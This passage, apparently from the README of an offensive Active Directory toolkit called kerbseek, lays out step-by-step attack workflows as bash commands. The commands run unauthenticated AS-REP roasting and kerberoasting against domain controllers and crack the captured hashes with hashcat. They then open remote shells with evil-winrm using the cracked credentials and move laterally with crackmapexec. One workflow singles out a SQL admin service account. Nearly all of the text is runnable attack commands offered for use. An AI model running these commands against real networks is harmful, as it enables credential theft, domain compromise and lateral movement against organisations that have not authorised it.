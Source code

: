 ```bash
# 5. Use cracked credentials
evil-winrm -i target -u cracked_user -p cracked_pass
```

### Workflow 2: Unauthenticated ASREPRoasting
```bash
# 1. Find Domain Controllers (no creds needed)
../dcseek/dcseek.py iplist.txt

# 2. Find ASREPRoastable users (no creds needed!)
../ldapseek/ldapseek.py dclist.txt --asrep

# 3. ASREPRoast all users (no creds needed!)
./kerbseek.py --asreproast --users ../ldapseek/asrep_users.txt -d CORP --dc dc01

# 4. Crack with Hashcat
hashcat -m 18200 asrep_hashes.txt rockyou.txt --force

# 5. First domain foothold!
evil-winrm -i dc01 -u cracked_user -p cracked_pass
```

### Workflow 3: Full Auto Attack
```bash
# 1. Find DCs
../dcseek/dcseek.py iplist.txt

# 2. Auto enumerate + attack
./kerbseek.py --auto dclist.txt -d CORP -u user -p pass --full

# 3. Crack all hashes
hashcat -m 13100 tgs_hashes.txt rockyou.txt --force
hashcat -m 18200 asrep_hashes.txt rockyou.txt --force

# 4. Lateral movement
crackmapexec smb iplist.txt -u cracked_users.txt -p cracked_passes.txt
```

### Workflow 4: Targeted Attack
```bash
# Attack specific high-value service account
./kerbseek.py --kerberoast --spn svc_sqladmin -d CORP --dc dc01 -u user -p pass

# Crack with custom wordlist
hashcat -m 13100 tgs_hashes.txt --rules-file best64.rule wordlist.txt

# Check if service account is admin
../ldapseek/ldapseek.py dclist.txt --admins -u svc_sqladmin -p cracked_pass
```

---
